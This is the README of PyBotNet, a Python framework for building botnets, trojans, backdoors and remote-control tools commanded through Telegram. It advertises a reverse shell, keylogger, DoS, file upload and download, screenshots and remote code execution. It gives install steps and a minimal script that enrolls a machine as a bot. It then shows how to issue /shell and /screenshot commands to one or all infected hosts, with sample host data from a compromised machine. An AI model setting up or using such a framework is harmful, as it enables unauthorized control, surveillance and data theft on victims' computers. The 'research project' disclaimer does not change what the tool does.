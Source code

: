 
 <p align="center">
    <a href='https://github.com/onionj/pybotnet' target='_blank'><img src='https://files.virgool.io/upload/users/271869/posts/wxs2bk9hkqfx/ezoxwssoikqm.jpeg' border='5' alt='trojan horse'/></a>
    <h1 align="center">PyBotNet</h1>
    <p align="center"> 
    A Python framework for building <b>remote control</b>, <b>botnet</b> , <b>trojan</b>  or <b>backdoor</b> with Telegram or other control panels
    </p>
  <p align="center">
    <a href="https://github.com/onionj/pybotnet">
      <img src="https://img.shields.io/pypi/v/pybotnet?label=pybotnet" />
    </a>
    <a href="https://github.com/onionj/pybotnet/blob/master/LICENSE">
      <img src="https://img.shields.io/github/license/onionj/pybotnet" />
    </a>
    <a href="https://www.python.org/">
    	<img src="https://img.shields.io/pypi/pyversions/pybotnet" />
    </a>
   </p>
   <p align="center">
    <a href="https://www.pepy.tech/projects/pybotnet">
      <img src="https://static.pepy.tech/badge/pybotnet" />
    </a>
    <a href="https://www.pepy.tech/projects/pybotnet>
      <img src="https://static.pepy.tech/badge/pybotnet/month" />
    </a>
    <a href="https://www.pepy.tech/projects/pybotnet>
      <img src="https://static.pepy.tech/badge/pybotnet/week" />
    </a>
   </p>
</p>
 

> Disclaimer: Please note that this is a research project. I am by no means responsible for any usage of this tool. Use it on your behalf!. 

---

**Source Code**: <a href="https://github.com/onionj/pybotnet" target="_blank">https://github.com/onionj/pybotnet</a>

**Documentation**: <a href="https://onionj.github.io/pybotnet/" target="_blank">https://onionj.github.io/pybotnet/</a>

**ToDo List**: <a href="https://github.com/users/onionj/projects/1" target="_blank">https://github.com/users/onionj/projects/1</a>

---

### Features:
* Built in Telegram control pannel and proxy system
* Built in scripts like:
    * reverse shell
    * put or get file
    * run python code on target systems
    * get screenshot
    * keylogger
    * dos
    * scheduler
    * ...
* Cross platform
* Ability to easily add custom scripts
* Import external scripts
* Ability to add custom control panel
* Add remote control to your apps
* [...](https://onionj.github.io/pybotnet/)


### Install PyBotNet

```console
pip3 install pybotnet -U
```

* `-U`: make sure to upgrade framework to latest version.


#### The simplest PyBotNet file could look like this:


```py title="main.py"
# in main.py
from pybotnet import BotNet, TelegramEngine


telegram_engine = TelegramEngine(token=TELEGRAM_TOKEN, admin_chat_id=ADMIN_CHAT_ID) #(1)

botnet = BotNet(telegram_engine) # (2)
botnet.run()
```

1. create engine: Engines transfer messages between admin and botnet
2. create BotNet instance


#### note:
  * `TELEGRAM_TOKEN`: You can use telegram `@botfather` to Create new telegram API Bot and get your `TELEGRAM_TOKEN` 
  * `ADMIN_CHAT_ID`: Get it from @userinfobot telegram bot
  * PyBotNet include default scripts, like: `/shell`, `/put_file`, `/get_file`, `/screenshot`, `/who`, ...,
    you can send `/help` to your telegram bot and see more detail..

#### Run code:

```console 
python3 main.py
```

#### telegram engine

open telegram and send `/who` command to your bot; If you have done the steps correctly, you recive a message like this:

```
scripts_name:
    echo
    who
    shell
    screenshot
    put_file
    get_file
    runcode
    openurl
    dos
    schedule

mac_addres: 228362405364
os: Linux
global_ip: 5.10.30.35
country: Iran, Islamic Republic of
bot_name: no_name
local_ip: {'192.168.23.1'}
host_name: {'system_name'}
system_user: root
up_time: 0:00:01
current_route: /
pid: 148352
cpu_count: 8
pybotnet_version: 2.0.8b0
from cache: True
```


you can send `/help` to see help page, or send `/help <script_name>` to recive more help about a specific script.

for example send `/help screenshot`, You will receive:

```
NAME:
screenshot

DESCRIPTION:
get screen shot
    * `[mac-address] /screenshot`
    or
    * `/screenshot`

    example command: 
        * `94945035671481 /screenshot`
        * `/screenshot` 

    return: img or img-download-link
    

script_version: 0.0.1
default_script: True

___________________________
scripts_name: ['echo', 'who', 'shell', 'screenshot', 'put_file', 'get_file', 'runcode', 'openurl', 'dos', 'schedule']
mac_addres: 228362405364
os: Linux
global_ip: 5.10.30.35
country: Iran, Islamic Republic of
bot_name: no_name
use_proxy: False
```

in top of message you see script name, description, syntax, and examples.

for run screenshot script you have two choice:

* Run the script on all clients that are listening to Telegram bot (for now we have one!)
* Run script on one specific system

for run script on all client send `/screenshot`.

bot if you need to get screen-shot on a specific system you need to send `[mac_addres] /screenshot` for our case: `228362405364 /screenshot`

in some case like `/shell` you need to run it just for one system.


For see who we can `Add custom scripts`, `Run in background`, `Running the pybotnet without coding`, and etc, see the below documentation.

### *For more, see [Documentation](https://onionj.github.io/pybotnet/)*


---

## Contributors ✨
Thanks goes to these wonderful people :

<table>
<td align="center"><a href="https://github.com/TorhamDev"><img src="https://avatars.githubusercontent.com/u/87639984?v=4" width="70px;" alt=""/><br /><sub><b> TorhamDev</b></sub></a><br /></td>
<td align="center"><a href="https://github.com/SepehrRasouli"><img src="https://avatars.githubusercontent.com/u/81516241?v=4" width="70px;" alt=""/><br /><sub><b> SepehrRasouli</b></sub></a><br /></td>
</table>

